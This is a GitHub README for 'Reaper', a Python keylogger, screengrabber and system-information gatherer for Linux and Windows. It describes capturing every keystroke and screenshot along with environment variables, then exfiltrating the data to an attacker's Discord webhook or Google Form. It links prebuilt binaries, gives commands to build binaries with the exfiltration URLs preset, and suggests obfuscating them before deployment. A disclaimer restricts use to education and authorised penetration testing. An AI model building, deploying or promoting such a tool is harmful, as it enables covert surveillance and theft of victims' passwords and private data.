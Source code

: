 # Reaper - A multi-platform keylogger and screengrabber

![Python Version](https://img.shields.io/badge/python-3.9+-blue?style=for-the-badge&logo=python)
[![CodeFactor Grade](https://img.shields.io/codefactor/grade/github/EONRaider/BCA-Reaper?label=CodeFactor&logo=codefactor&style=for-the-badge)](https://www.codefactor.io/repository/github/EONRaider/BCA-Reaper)
![OS](https://img.shields.io/badge/GNU%2FLinux-red?style=for-the-badge&logo=linux)
![OS](https://img.shields.io/badge/Windows-blue?style=for-the-badge&logo=windows)

[![Reddit](https://img.shields.io/badge/Reddit-EONRaider-FF4500?style=flat-square&logo=reddit)](https://www.reddit.com/user/eonraider)
[![Discord](https://img.shields.io/badge/Discord-EONRaider-7289DA?style=flat-square&logo=discord)](https://discord.gg/KVjWBptv)
[![Twitter](https://img.shields.io/badge/Twitter-eon__raider-38A1F3?style=flat-square&logo=twitter)](https://twitter.com/intent/follow?screen_name=eon_raider)

Reaper is a **multi-platform keylogger, screengrabber and information gatherer** 
written in Python 3.

The **keylogger** module captures all keyboard events independently of which application is 
being run. Keystrokes on browsers, games, messengers, etc., are all monitored. Similarly, the 
**screenshot** module captures images from the active monitor in spite of which application 
generates them. **System information** such as OS name, kernel version, architecture and 
environment variables are also captured.

All data is exfiltrated to a **Discord** server and/or **Google Forms** instance through HTTPS. An 
**unlimited number of targets** can be monitored simultaneously through both methods.

Linux and Windows binaries are [available for download](https://github.com/EONRaider/BCA-Reaper/tree/master/dist) 
for portability and ease of execution.

## Demo
![demo](https://github.com/EONRaider/static/blob/c506b24d4c8863e8cfddc48d86bf3ca2f6b1398a/reaper/reaper-demo.jpg)

## Setup
All you need to run Reaper is a free Discord server and/or a 
Google Forms instance. You need at least one of the methods for successful 
exfiltration.

### 1. Set up Discord
Head over to https://www.discord.com and create a new Discord account and 
server, if necessary. [Create a Webhook URL](https://www.digitalocean.com/community/tutorials/how-to-use-discord-webhooks-to-get-notifications-for-your-website-status-on-ubuntu-18-04) 
for any suitable channel and copy the URL.

  ![webhook_Setup](https://github.com/EONRaider/static/blob/49511f621c43ce8a9fac138fa4b14f369edf6cbf/reaper/webhook_setup.png)

### 2. Set up Google Forms
Create a form on https://docs.google.com/forms with a free Google account. 
Set up as many questions as you need, with any names. Copy the form URL and that's it. *The 
exfiltration works as long as the answer field for the first question is of type **Paragraph**.*

  ![forms_setup](https://github.com/EONRaider/static/blob/9842916f424823ae8d72f8cd0e73a66371b9bcc7/reaper/forms_setup.png)

## Execute
You can execute Reaper in three ways:
1. Directly from one of the pre-compiled binaries made available at [dist](https://github.com/EONRaider/BCA-Reaper/tree/master/dist)
2. Building your own binaries
3. From a local Python interpreter (usually for development purposes)

### 1. Use a pre-compiled binary
[Download Reaper](https://github.com/EONRaider/BCA-Reaper/tree/master/dist) 
from the dist directory and run it with the URLs of your Discord server and/or Google Forms instance.
```shell
C:\Users\name> ./windows_reaper.exe --webhook YOUR-WEBHOOK-URL --forms YOUR-FORM-URL
```
The same procedure works for the Linux binary. Run with `--help` for options or check 
the [Usage](https://github.com/EONRaider/BCA-Reaper/tree/master#usage) section below.

### 2. (Optional) Build your own binary
What if you need a binary ready to exfiltrate to your own preset Discord and 
Google Forms URLs on execution *without setting them from the command line*? This might prove 
useful in a scenario of threat emulation, for example.

Building the binary allows you to do just that. You just need to install all dependencies and build. 
Dependency management works with both [Poetry](https://python-poetry.org/) (recommended) and [Virtualenv](https://virtualenv.pypa.io/en/latest/). 
```shell
user@host:~$ git clone https://github.com/EONRaider/BCA-Reaper.git
user@host:~$ cd BCA-Reaper
user@host:~/BCA-Reaper$ poetry install <--or--> pip install -r requirements.txt
```

With all dependencies in place the `build.py` file takes care of the rest.
```shell
user@host:~/BCA-Reaper$ python3 build.py --webhook YOUR-WEBHOOK-URL --forms YOUR-FORM-URL
```
The result is a binary file named `linux_reaper` or `windows_reaper.exe` that is ready to exfiltrate to your preset URLs 
on execution. Optionally obfuscate and deploy in accordance with your threat emulation activity's ROE. Refer 
to the [Legal Disclaimer](https://github.com/EONRaider/BCA-Reaper/tree/master#legal-disclaimer) 
below.

### 3. (Optional) Run from a Python interpreter
This should be only used for development purposes. For that reason you may need to 
manipulate the `PYTHONPATH` environment variable to point to the root directory of 
Reaper.
```shell
user@host:~$ git clone https://github.com/EONRaider/BCA-Reaper.git
user@host:~$ cd BCA-Reaper
user@host:~/BCA-Reaper$ poetry install <--or--> pip install -r requirements.txt
user@host:~/BCA-Reaper$ export PYTHONPATH=$(pwd)
user@host:~/BCA-Reaper$ python3 src/reaper.py --help
```

## Usage
```
usage: reaper.py [-h] [-w <webhook_url>] [-f <google_forms_url>] [-e <seconds>]

BCA Reaper - Log keystrokes, take screenshots and grab system information from a target host 
and exfiltrate to Discord and Google Forms

optional arguments:
  -h, --help            show this help message and exit
  -w <webhook_url>, --webhook <webhook_url>
                        URL of a Webhook for the Discord server.
  -f <google_forms_url>, --forms <google_forms_url>
                        URL of a remote instance of Google Forms.
  -e <seconds>, --exfil-time <seconds>
                        Time in seconds to wait between periodic executions of the exfiltration 
                        of logged data. Defaults to 30 seconds. Set to None to perform a 
                        single operation.
```

## Legal Disclaimer

The use of code contained in this repository, either in part or in its totality,
for engaging targets without prior mutual consent is illegal. **It is
the end user's responsibility to obey all applicable local, state and
federal laws.**

Developers assume **no liability** and are not
responsible for misuses or damages caused by any code contained
in this repository in any event that, accidentally or otherwise, it comes to
be utilized by a threat agent or unauthorized entity as a means to compromise
the security, privacy, confidentiality, integrity, and/or availability of
systems and their associated resources. In this context the term "compromise" is
henceforth understood as the leverage of exploitation of known or unknown vulnerabilities
present in said systems, including, but not limited to, the implementation of
security controls, human- or electronically-enabled.

The use of this code is **only** endorsed by the developers in those
circumstances directly related to **educational environments** or
**authorized penetration testing engagements** whose declared purpose is that
of finding and mitigating vulnerabilities in systems, limiting their exposure
to compromises and exploits employed by malicious agents as defined in their
respective threat models.
